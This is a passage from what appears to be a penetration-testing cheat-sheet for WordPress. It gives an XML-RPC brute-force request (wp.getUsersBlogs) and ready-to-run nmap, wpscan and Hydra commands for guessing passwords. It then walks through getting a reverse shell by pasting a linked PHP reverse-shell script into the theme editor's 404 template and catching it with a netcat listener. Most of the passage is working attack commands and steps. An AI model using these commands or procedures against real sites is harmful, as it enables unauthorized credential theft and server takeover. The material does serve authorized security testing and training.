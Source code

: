 #### **Brute-force**

**`wp.getUserBlogs`**, **`wp.getCategories`** or **`metaWeblog.getUsersBlogs`** are some of the methods that can be used to brute-force credentials. If you can find any of them you can send something like:

```http
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
[...]

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params>
<param><value>{username}</value></param>
<param><value>{password}</value></param>
</params> 
</methodCall>
```
{% endtab %}

{% tab title="Tools" %}
We can brute-force password using the tools listed above and Hydra:

```bash
#Nmap
nmap --script http-wordpress-brute --script-args uri="/wordpress/path" <target-ip>

#WpScan
wpscan --rua --url http://www.vuln.com -U username --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt [--password-attack xml-rpc]

#Hydra
hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
{% endtab %}
{% endtabs %}

### Reverse Shell

If we have **access to a privileged Wordpress account**. We can try to execute PHP code from the admin dashboard to get a reverse shell.

{% tabs %}
{% tab title="Themes Injection" %}
It may be possible to edit PHP from the theme used. For this;

* Access to dashboard (/wp-admin/).
* Move to "Appearance" and select theme e.g. "Twenty Seventeen".
* Click "Theme Editor" or "Editor" in the "Appearance" section.
* In the theme editor, click "404 Template (404.php)" on the right.
* Copy and paste the [Unix Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or the  [Windows one](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php\_reverse\_shell.php).&#x20;
* Access "https://vulnerable.com/wp-content/themes/twentyseventeen/404.php".\
  We should get the target shell in the netcat listener.
{% endtab %}
